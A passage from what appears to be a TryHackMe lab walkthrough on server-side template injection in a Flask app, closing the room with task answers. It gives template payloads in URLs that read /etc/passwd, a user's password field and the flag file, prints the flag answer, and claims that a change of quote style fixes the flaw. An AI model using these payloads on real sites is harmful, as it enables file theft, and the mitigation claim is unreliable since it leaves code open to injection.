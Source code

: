 ![image](https://github.com/user-attachments/assets/eaf39fff-8624-4405-b313-eb01e8246865)

<br>

<p>Now let's take that vulnerability to another level and read files (LFI).<br><br>
<code>{{ get_user_file("/etc/passwd") }}</code>

The above string will allow you to read the /etc/passwd file or any other if you simply change the name.<br><br>

This vulnerability can be easily mitigated by using a single quotation mark (' ') in the template variable (instead of ''' '''').  It may look ridiculous, but many python developers make these kinds of mistakes, and unintentionally make their websites vulnerable to SSTI.</p>



<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>
<br>

> 6.1. <em>What's inside /home/flask/flag.txt ?</em><br><a id='6.1'></a>
>> <code><strong>THM{flask_1njected}</strong></code>

<br>


<p>Navigated to <code>targetIP:5000/vuln?name={{ person.password }}</code></p>

![image](https://github.com/user-attachments/assets/7d61f8c4-e6f3-4838-8f8b-fcb49c6299cc)

<p>Navigated to <code>>http://TargetIP:5000/vuln?name=={{ get_user_file("/etc/passwd") }</code></p>

![image](https://github.com/user-attachments/assets/1a8df1de-f9ad-4de7-94cd-c235b91affed)

<p>Navigated to <code>http://TargetIP:5000/vuln?name={{%20get_user_file(%22/home/flask/flag.txt%22)%20}}</code>p>
<br>

![image](https://github.com/user-attachments/assets/f4833651-531f-4e23-b2dd-fb868f4e141b)

<br>

<h2>Task 7 . References and Sources</h2>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>
<br>

> 7.1. <em>See you in the next room!</em><br><a id='7.1'></a>
>> <code><strong>No answer needed</strong></code>

<br>
<br>

<h1 align="center">Room Completed</h1>
<br>
<p align="center"><img width="1000px" src="https://github.com/user-attachments/assets/b21c8e27-d772-4cec-9dd8-7c088a8d057c"><br>
                  <img width="1000px" src="https://github.com/user-attachments/assets/55269c1c-b34a-454b-9c41-1efcf991a75a"></p>

<h1 align="center"> My TryHackMe Journey</h1>
<br>
